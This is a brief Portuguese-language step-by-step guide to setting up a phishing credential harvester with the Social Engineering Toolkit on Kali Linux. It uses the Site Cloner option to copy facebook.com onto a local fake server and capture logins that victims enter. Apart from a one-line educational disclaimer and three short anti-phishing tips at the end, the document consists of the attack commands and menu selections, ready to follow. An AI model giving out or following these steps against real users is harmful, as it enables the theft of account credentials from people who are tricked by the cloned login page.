 # Configurando o Phishing no Kali Linux
**Atenção:** Este guia é apenas para fins educacionais e de conscientização sobre segurança cibernética. O uso indevido pode ser ilegal e resultar em penalidades graves.

### 1. Obter Acesso Root
```bash
sudo su
```

### 2. Iniciar o Social Engineering Toolkit (SET)
```bash
setoolkit
```

### 3. Selecionar o Tipo de Ataque
Escolha a opção de ataques de engenharia social:
```bash
1) Social-Engineering Attacks
```

### 4. Selecionar o Vetor de Ataque
```bash
2) Web Site Attack Vectors
```

### 5. Escolher o Método de Captura de Credenciais
```bash
3) Credential Harvester Attack Method
```

### 6. Escolher o Método de Clonagem de Site
```bash
2) Site Cloner
```

### 7. Obter o Endereço IP da Máquina para Servidor Fake
```bash
ifconfig
```
Copie o endereço IP da interface correta.

### 8. Definir a URL do Site a ser Clonado
Por exemplo, para clonar o Facebook:
```bash
http://www.facebook.com
```

### 9. Captura de Credenciais
Caso um usuário insira credenciais falsas, elas aparecerão no terminal do Kali Linux.

## Como se Proteger de Phishing
- Sempre verifique a URL dos sites antes de inserir credenciais.
- Utilize autenticação em dois fatores.
- Nunca clique em links suspeitos recebidos por e-mail ou mensagens.
